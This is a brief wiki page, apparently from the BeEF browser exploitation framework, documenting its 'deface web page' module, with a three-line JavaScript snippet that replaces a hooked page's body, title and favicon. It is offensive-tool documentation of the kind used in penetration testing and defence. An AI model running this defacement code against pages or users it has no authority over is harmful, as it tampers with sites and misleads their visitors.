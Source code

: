 ##Summary
* **Objective**: Overwrite the page, title and shortcut icon on the hooked page.
* **Date**: ???
* **Authors**: antisnatchor
* **Browsers**: All (User will be notified)
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/deface_web_page]]

##Internal Working

This command modify the HTML, the title and the favicon of the page with the parameters given :

```javascript
	document.body.innerHTML = "<%= @deface_content %>";
	document.title = "<%= @deface_title %>";
	beef.browser.changeFavicon("<%= @deface_favicon %>");
```

##Feedback